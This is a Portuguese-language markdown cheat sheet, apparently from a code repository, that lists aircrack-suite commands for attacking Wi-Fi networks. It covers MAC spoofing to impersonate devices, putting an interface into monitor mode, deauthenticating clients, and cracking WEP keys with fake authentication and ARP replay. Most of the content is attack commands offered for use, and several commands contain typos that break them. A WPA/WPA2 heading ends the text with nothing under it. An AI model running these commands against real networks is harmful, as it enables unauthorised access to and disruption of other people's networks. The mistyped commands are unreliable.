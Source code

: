 ## Trocar o endereço MAC

**Objetivos:**
- Anonimizar
- Passar por outro dispositvo

**Comandos:**

   *$ ifconfig<br>
   $ ifconfig {interface} down<br>
   $ ifconfig {interface} hw ether {MAC novo}<br>
   $ ifconfig {interface} up*

# Wlan0

## Colocando a interface no modo de monitoramento

### Opção 1
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode monitor<br>
   $ ifconfig {interface} up*
### Opção 2
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf start {interface}*<br>
- Neste caso é criada uma nova inteface - normalmente com o acrescimo de 'mon' ao final do nome da inteface original.
## Restaurando a interface para o modo managed

### Opção 1 (se feito pelo opção 1 anterior)
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode managed<br>
   $ ifconfig {interface} up*
### Opção 2 (se feito pelo opção 2 anterior)
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf stop {interface mon}<br>
   $ service NetworkManager restart, ou systemch restart NetworkManager*
### Opção 3 (ambos os casos)
   *$ rebbot*

## Monitorar redes de wifi
### Descobrindo as redes Wi-Fi

Com o modo monitor habilitado:

   *$ airodump-ng {interface}* - para redes 2.4Ghz <br>
   *$ airodump-ng --band a {interface}* - para redes 5Ghz <br>
   *$ airodump-ng --band a {interface}* - para ambas

### Monitorando uma rede específica (e gravar em arquivo)
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*

### Desconectando um aparelho
Rodar simultaneamente , em outro terminal, com o airodump-ng 

   *$ aireplay-ng --deauth {número de envios} -a {MAC Access Point} -c {MAC Cliente} {interface}*

## Hackeando - segurança WEP
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*
   
Em outro terminal

   *S aircrack-ng {arquivo.cap}* - Para achar a chave

- Para se conectar, basta selecionar a rede alvo e digitar a chave sem os ":"

### Redes de baixa utilização
Necessidade provocar o envio de packets pelo Access point

No terminal 1

   *S ifconfig* - para obter o MAC da interface: 6 primeiros números do unspec. <br>
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*

No terminal 2

   *$ aireplay-ng --fakeauth 0 -a {MAC Access Point} -h {MAC interface} {interface}* - Obter conexão com AC, mas ainda não autenticado.<br>
    *$ aireplay-ng --arpreplay -b {MAC Access Point} -h {MAC interface} {interface}* - Força envio de pacotes pelo Access Point<br>

No terminal 3

   *$ aireplay-ng --fakeauth 0 -a {MAC Access Point} -h {MAC interface} {interface}* <br>
   *$ aircrack-ng {arquivo.cap}*


## Hackeando - segurança WPA/WPA2



   
